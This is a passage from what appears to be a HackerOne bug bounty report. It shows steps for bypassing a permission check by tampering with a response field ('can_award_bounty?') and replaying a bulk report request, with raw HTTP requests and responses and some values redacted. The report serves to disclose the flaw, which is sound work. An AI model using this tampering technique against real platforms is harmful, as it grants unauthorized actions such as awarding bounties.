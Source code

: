 ```
HTTP/1.1 200 OK
Date: Tue, 28 Nov 2017 20:33:14 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: private, no-cache, no-store, must-revalidate
Content-Disposition: inline; filename="response.json"
Content-Security-Policy: default-src 'none'; base-uri 'self'; connect-src 'self' www.google-analytics.com errors.hackerone.net; font-src 'self'; form-action 'self'; frame-ancestors 'none'; frame-src www.youtube-nocookie.com; img-src 'self' data: cover-photos.hackerone-user-content.com hackathon-photos.hackerone-user-content.com profile-photos.hackerone-user-content.com hackerone-attachments.s3.amazonaws.com; media-src 'self' hackerone-attachments.s3.amazonaws.com; script-src 'self' www.google-analytics.com; style-src 'self' 'unsafe-inline'; report-uri https://errors.hackerone.net/api/30/csp-report/?sentry_key=61c1e2f50d21487c97a071737701f598
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: DENY
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
Server: cloudflare-nginx
CF-RAY: 3c5019db6afc60ae-MNL
Content-Length: 9669

███
```

6. Change the value of parameter name `can_award_bounty?` from `false` to `true`
Note: I change the response of the request so i'm able to use the `Set award` for the request .
7. Use the `Set award` and intercept the request and put that request to `Repeater`.

Request:

```
POST /reports/bulk HTTP/1.1
Host: hackerone.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: █████
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 174
Connection: close

████████
```
Response:

```
HTTP/1.1 200 OK
Date: Tue, 28 Nov 2017 20:39:58 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: private, no-cache, no-store, must-revalidate
Content-Disposition: inline; filename="response."
Content-Security-Policy: default-src 'none'; base-uri 'self'; connect-src 'self' www.google-analytics.com errors.hackerone.net; font-src 'self'; form-action 'self'; frame-ancestors 'none'; frame-src www.youtube-nocookie.com; img-src 'self' data: cover-photos.hackerone-user-content.com hackathon-photos.hackerone-user-content.com profile-photos.hackerone-user-content.com hackerone-attachments.s3.amazonaws.com; media-src 'self' hackerone-attachments.s3.amazonaws.com; script-src 'self' www.google-analytics.com; style-src 'self' 'unsafe-inline'; report-uri https://errors.hackerone.net/api/30/csp-report/?sentry_key=61c1e2f50d21487c97a071737701f598
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-Download-Options: noopen
```